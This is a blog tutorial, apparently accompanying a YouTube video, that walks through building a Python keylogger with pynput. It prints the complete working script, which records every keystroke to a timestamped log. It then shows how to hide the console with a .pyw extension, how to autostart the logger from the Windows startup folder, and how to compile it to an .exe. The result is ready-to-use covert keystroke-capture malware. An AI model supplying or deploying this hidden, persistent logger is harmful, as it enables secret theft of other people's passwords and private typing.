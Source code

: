 ```yaml
---
templateKey: blog-post
title: "Python Keylogger"
date: 2017-12-15T12:00:00.000Z
category: YouTube
tags: [python, keyboard, logging, pynput]
image: feature.jpg
description: "This is a Python keylogger which will work on Windows, Mac and Linux. This script uses the pynput module. This python keylogger will store typed keys in a file in order of when they were typed."
disableToc: false
hidden: false
youtubeVideoId: x8GbWt56TlY
---
```


## PIP

If you haven't used or setup pip before, go to my tutorial at [how-to-setup-pythons-pip](/blog/post/how-to-setup-pythons-pip/) to setup pip. This is needed to install pynput to get keys typed.

## Installing Pynput

We will be using the pynput module to listen to mouse events. To install this module execute `pip install pynput` in cmd. Watch the output to make sure no errors have occurred; it will tell you when the module has been successfully installed.

![Installing pynput](../how-to-get-mouse-clicks-with-python/pynput1.png)

To double-check that it was installed successfully, open up IDLE and execute the command `import pynput`; no errors should occur.

![Testing pynput](../how-to-get-mouse-clicks-with-python/pynput2.png)

## Building the Keylogger

Create a new Python file and import Key and Listener from pynput.keyboard and the logging module.

```python
from pynput.keyboard import Key, Listener
import logging
```

Next set a variable which points to where you want to save the logs; leave this as an empty string to save the log beside the python script. Then set up the logging module as shown below.

```python
log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
```

Then create a definition for keypresses called on_press which takes key as a parameter. In this definition, we want to log the key using the logging info method. The key will need to be casted to a string before logging it.

```python
def on_press(key):
    logging.info(str(key))
```

Next setup an instance of Listener and define the on_press method in a `with` statement and then `.join()` the thread to the main thread.

```python
with Listener(on_press=on_press) as listener:
    listener.join()
```

Now save the file with a .pyw file extension to make sure that the console doesn't appear when it's run.

![Save as .pyw](pyw.png)

Run the script in IDLE to make sure that you haven't made any errors. Errors will show up in here if some do occur.

## Autostart

To make the script run on startup first go to your startup folder. Hold down the windows button and press "R" or type run in the windows menu to make the run dialog appear.

![shell:startup example](run.png)

Now type `shell:startup` in the dialog and press enter. This will open a window at your startup folder.

Copy the keylogger into this folder and then create a new folder somewhere else for logs to be saved to. Make sure this folder is not in the startup folder or it will be opened every time the computer has started. Open the keylogger in IDLE and now change the log_dir to the location of the folder you just created. Make sure this folder path uses forward slashes ('/') and contains a forward slash at the end.

## Stopping the Keylogger

To stop the keylogger, open up task manager and look for anything named python as shown below due to windows just showing program names. If you have an older version of windows, I recommend looking for pythonw.exe. Right-click on this and end the task.

![Python in task manager](taskmgr.png)

## Final Script

```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Compile to EXE

Want to convert this .py to a .exe? Head over to my tutorial at [convert-py-to-exe](/blog/post/convert-py-to-exe/) to do it in a few easy steps. This tutorial also shows you how to remove the console that shows up, make one file executables and even add an icon.

Converting to .exe will allow the script to run on Windows computers without python installed (python is pre-installed on Mac and most Linux computers)

## Common Issues and Questions

### It doesn't work (general things to try)

Make sure you run the script in IDLE to check for errors you have made

### 'python' is not recognized as an internal or external command

Python hasn't been installed or it hasn't been installed properly. Go to [how-to-setup-pythons-pip](/blog/post/how-to-setup-pythons-pip/) and follow the tutorial. Just before you enter the scripts folder into the path variable, remove the "\scripts\" part at the end. You will also want to add another path with "\scripts\" to have pip.

### Where are the log files?

They will be located next to the python file (in the current directory for more advanced users). If it hasn't appeared, make sure you run the script in IDLE to check for errors you have made.

### ModuleNotFoundError/ImportError: No module named 'pynput'

Did you install pynput? This error will not occur if you installed it properly. If you have multiple versions of Python, make sure you are installing pynput on the same version as what you are running the script with.

### I got a SyntaxError

Syntax errors are caused by you and there is nothing I can offer to fix it apart from telling you to read the error. They always say where the error is in the output using a ^. Generally, people that get this issue have incorrect indentation, brackets in the wrong place or something spelt wrong. You can read about SyntaxError on Python's docs [here](https://docs.python.org/2/tutorial/errors.html#syntax-errors).

### How can I stop the listener?

As documented at [https://pythonhosted.org/pynput/keyboard.html](https://pythonhosted.org/pynput/keyboard.html) you can use pynput.keyboard.Listener.stop() to stop listening.

### "Open command window here" isn't shown when I shift right-click?

Make sure you are holding down shift. If you are using new versions of Windows, this has been replaced by "Open PowerShell Window Here". Using this method will work exactly the same for this tutorial; so go ahead and use PowerShell.
